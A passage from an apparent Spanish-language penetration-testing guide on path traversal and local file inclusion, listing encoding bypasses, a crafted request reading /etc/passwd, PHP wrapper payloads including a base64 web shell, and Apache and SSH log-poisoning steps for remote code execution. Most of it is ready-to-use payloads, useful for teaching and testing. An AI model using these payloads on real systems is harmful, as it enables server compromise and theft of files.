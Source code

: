    - **Codificación URL (URL Encoding):**
     - `.` -> `%2e`
     - `/` -> `%2f` (para path traversal) o `%5c` (para `\` en Windows)
     - `../` -> `%2e%2e%2f`
     - `..\` -> `%2e%2e%5c`
   - **Doble Codificación URL:**
     - `%2e%2e%2f` -> `%252e%252e%252f` (el servidor decodifica una vez, el filtro no lo ve, luego la función de acceso a ficheros vuelve a decodificar o lo interpreta).
   - **Codificaciones No Estándar / Overlong UTF-8:**
     - `/` -> `%c0%af`, `%c1%9c`, etc.
     - `\` -> `%c0%bc`, `%c1%9c`, etc.
     - `../` -> `%2e%2e%c0%af` o `%2e%2e%c1%9c`
   - **"Doble Traversal" o Variantes:**
     - Si el filtro elimina la primera ocurrencia de `../` de forma no recursiva.
     - `....//` -> (tras eliminar `../`) `../`
     - `..././` -> (tras eliminar `../`) `./` (no útil) o `..%2F./` -> (tras eliminar `../`) `./`
     - El ejemplo `....//` a menudo se interpreta como `../` por el sistema de archivos después de la normalización (e.g., `foo/....//bar` -> `foo/../bar` -> `bar`).
     - Variaciones: `../../`, `..\/`, `..\.\`, `/%5C..`
   - **Uso de Rutas Absolutas:**
     - Si el filtro solo bloquea `../` pero la aplicación permite rutas absolutas si el input no empieza por un path esperado.
     - Payload: `/etc/passwd` o `C:/Windows/win.ini`
   - **Encapsulamiento o Wrappers:**
     - En algunos casos, si la aplicación usa wrappers o protocolos especiales, se pueden encontrar bypasses específicos (e.g., `file:///etc/passwd`).

**Ejemplo de Ataque Combinado (Corregido y Clarificado):** La petición original del usuario era: `GET http://cryptosite.com/download_earnings?u=%2e%20%2f%2e%20%2f%20%2e%2fetc%2fpasswd%00csv HTTP/1.1` Los `%20` (espacios) en la secuencia de traversal son incorrectos. Asumiendo que se quería añadir `.csv` y bypassarlo con null byte:

`GET http://cryptosite.com/download_earnings?u=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00.csv HTTP/1.1`

- `%2e%2e%2f` es `../` codificado.
- `%00` es el null byte.
- `.csv` es el sufijo que la aplicación podría estar añadiendo y que se intenta truncar con el null byte.

### Escalada de LFI a RCE (Remote Code Execution)

Un LFD/LFI se vuelve mucho más crítico si se puede escalar a Ejecución Remota de Código. Esto depende mucho de la tecnología del servidor (especialmente PHP) y de lo que se pueda incluir/leer.

1. **Wrappers de PHP:**
   - **`php://filter`**: Permite leer archivos usando filtros de codificación (e.g., base64), lo que puede ayudar a exfiltrar binarios o evitar que el código PHP se ejecute si se incluye.
     - `?file=php://filter/convert.base64-encode/resource=../../../../etc/passwd`
     - `?file=php://filter/read=string.rot13/resource=index.php` (para ofuscar ligeramente el código PHP y leerlo)
   - **`php://input`**: Permite incluir el cuerpo de una petición POST. Si se puede incluir y el contenido es código PHP, se ejecutará.
     - `?file=php://input` (y en el cuerpo del POST: `<?php system('id'); ?>`)
   - **`data://` wrapper**: Permite incluir datos codificados directamente en la URL.
     - `?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+` (payload `<?php system($_GET['cmd']); ?>` en base64) y luego `&cmd=id`.
   - **`expect://` wrapper**: Si el módulo `expect` de PHP está cargado, permite ejecutar comandos.
     - `?file=expect://id`
2. **Envenenamiento de Logs (Log Poisoning):**
   - Si un atacante puede escribir código PHP en un archivo de log que luego puede incluir vía LFI.
   - **Logs de Apache:** Hacer una petición a Apache con código PHP en la URL o en el User-Agent.
     - `GET /<?php system('id'); ?> HTTP/1.1` (esto se loguea).
     - Luego incluir el log: `?file=../../../../var/log/apache2/access.log`
   - **Logs de SSH (`/var/log/auth.log`):** Intentar loguear como un usuario `<?php system('id'); ?>@servidor_victima`.